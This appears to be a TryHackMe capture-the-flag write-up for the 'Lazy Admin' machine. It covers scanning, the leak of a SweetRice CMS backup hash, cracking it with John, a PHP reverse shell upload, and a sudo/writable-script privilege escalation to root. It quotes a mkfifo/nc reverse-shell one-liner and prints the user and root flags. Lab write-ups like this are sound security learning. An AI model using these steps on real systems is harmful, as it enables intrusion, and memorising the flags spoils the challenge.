



# Lazy Admin

export IP=10.10.13.147

## nmap

```sh
nmap -A -sC -sV -T4 -p- $IP
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-09-01 16:24 WEST
Nmap scan report for 10.10.13.147
Host is up (0.091s latency).
Not shown: 65533 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Apache/2.4.18 (Port 80)


### dirb

```sh
gobuster -u http://$IP/ -w /usr/share/wordlists/dirb/big.txt
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.13.147/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/09/01 16:28:10 Starting gobuster
=====================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/server-status (Status: 403)
=====================================================
2023/09/01 16:32:42 Finished
=====================================================
```

### Basic CMS SweetRice


```sh
gobuster -u http://$IP/content/ -w /usr/share/wordlists/dirb/big.txt
```

```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.13.147/content/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirb/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/09/01 16:42:08 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/js (Status: 301)
=====================================================
2023/09/01 16:46:48 Finished
=====================================================
```

A quick search about CMS SweetRice let us discover some critical vulnerabilities to exploit.

Also is likely possible to search for the default password as the admin is lazy :)

However, I decided to do some research myself looking for new ways to get into this machine since searching for "Basic CMS SweetRice" led me to other write-ups from THM users.

In this sql file (at `/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`) we can find the following:

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

A closer look at this discovery lets us know that the admin username is `manager` and the admin password hash (MD5) is `42f749ade7f9e195bf475f37a44cafcb`.

```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

### John

Let's use John the Ripper to crack this hash:

```sh
echo "42f749ade7f9e195bf475f37a44cafcb" > hash.txt
john-the-ripper --format=Raw-MD5 hash.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/snap/john-the-ripper/current/run/password.lst
Enabling duplicate candidate password suppressor
Password123      (?)
1g 0:00:00:00 DONE 2/3 (2023-09-01 17:22) 1.428g/s 7680p/s 7680c/s 7680C/s morena..just4fun
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

And like so we can login in `/content/as` as admin:



We can upload this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

### PHP Reverse Shell

On the attacker machine:

```
nc -lvnp 4444
```



Finally, we click the upload php file, and boom we have a reverse shell to the machine:



From here we can escalate privileges from `www-data` to `root`:

### PrivEsc

```sh
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

This file isn't writeable but we can read it:

```sh
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```sh
$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

We can write to this file allowing us to privEsc to root!

```sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Looks like the itguy was also reverse shelling in this machine :P

There's no need for us to do the same we can just do the following:

```sh
$ echo "/bin/sh" > /etc/copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
id
uid=0(root) gid=0(root) groups=0(root)
```

And just like so we've root privileges!

#### flags

<details>
  <summary>User flag</summary>

```sh
cat /home/itguy/user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

</details>

<details>
  <summary>Root flag</summary>

```sh
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

</details>
